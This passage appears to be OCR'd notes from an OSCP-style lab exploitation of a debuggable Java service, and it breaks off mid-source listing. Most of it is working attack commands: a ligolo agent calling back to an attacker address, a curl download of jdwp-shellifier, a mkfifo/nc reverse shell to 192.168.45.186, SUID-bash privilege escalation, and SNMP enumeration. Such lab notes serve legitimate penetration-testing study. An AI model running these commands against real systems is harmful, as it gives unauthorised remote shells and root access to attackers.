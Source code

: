 ```c





// drop ligolo on it

./lin_agent -connect 192.168.45.185:4445 -ignore-cert
python2 ./46501.py -t 240.0.0.1 -p 8000 --cmd 'chmod +s /bin/bash'

nc -v 192.168.148.150 5000 -z



curl -O http://192.168.45.186:80/jdwp-shellifier.py





python2 jdwp-shellifier.py -t 240.0.0.1 -p 8000 --cmd 'rm /tmp/f;mkfifo /tmp/f; cat /tmp/f|sh -i 2>&1|nc 192.168.45.186 90 >/tmp/f'
sudo python2 jdwp-shellifier.py -t 240.0.0.1 -p 8000 --break-on 'java.net.ServerSocket.accept' --cmd '/tmp/chpasswd'

./lin_agent -connect 192.168.45.186:443 -retry -ignore-cert

nc -v 192.168.204.150 5000 -z

python2 jdwp-shellifier.py -t 127.0.0.1 -p 8001 --cmd "chmod u+s /bin/bash"

```
snmpwalk -v2c -c public 192.168.150.149 NET-SNMP-EXTEND-MIB::nsExtendObjects

We can see that Root is debugging a Java application, we can even read the source:

dev@oscp:~$ cat /opt/stats/App.java
cat /opt/stats/App.java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.ServerSocket;
import java.net.Socket;
 
class StatsApp {
    public static void main(String[] args) {
        System.out.println("System Stats\n");
        Runtime rt = Runtime.getRuntime();
        String output = new String();
 
        try {
            ServerSocket echod = new ServerSocket(5000);

